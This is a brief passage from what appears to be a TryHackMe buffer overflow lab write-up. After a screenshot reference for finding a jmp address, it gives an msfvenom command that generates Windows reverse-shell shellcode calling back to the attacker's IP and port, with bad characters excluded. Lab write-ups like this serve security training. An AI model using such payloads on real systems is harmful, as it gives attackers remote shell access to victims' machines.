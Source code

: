 ![Mona jmp](/images/THM/buffprep/of2/Captura9.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x23,\x3c,\x83,\xba" -f c
```
